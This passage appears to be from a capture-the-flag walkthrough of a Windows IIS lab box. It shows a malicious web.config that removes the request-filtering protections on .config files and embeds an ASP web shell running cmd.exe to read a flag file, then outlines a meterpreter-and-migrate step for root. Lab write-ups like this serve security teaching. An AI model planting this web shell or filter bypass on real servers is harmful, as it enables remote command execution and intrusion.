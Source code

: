 ```xml
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <!-- Remove .config from file extensions that are denied -->
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <!-- Remove .config from file extensions that cannot be accessed -->
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
' Close out the XML comment from the lines above
Response.write("-"&"->")

' Create a Windows Script Shell Object that will allow us to execute commands
Set wShell1 = Server.CreateObject("WScript.Shell")

' Execute the command
Set cmd1 = wShell1.Exec("cmd.exe /c type C:\Users\merlin\Desktop\user.txt")

' Read the output
output1 = cmd1.StdOut.Readall()

' Write it to the response
Response.write("<pre>")
Response.write(output1)
Response.write("</pre>")

' Comment out any remaining lines
Response.write("<!-"&"-")
%>
-->
```

## Getting the Root Flag
Through testing and observing the behavior of the box, it turns out that files uploaded via the application are deleted after about 30 seconds.  That means we have to act fast.  If we upload a tool like meterpreter, it will go away once the web.config we upload is wiped (since it is being executed in the context of web.config).  That means we need to do something like this:

  1. Upload and execute our payload
  2. Migrate into another process that is running on the box.  This might mean that we have to spawn a process ourselves.
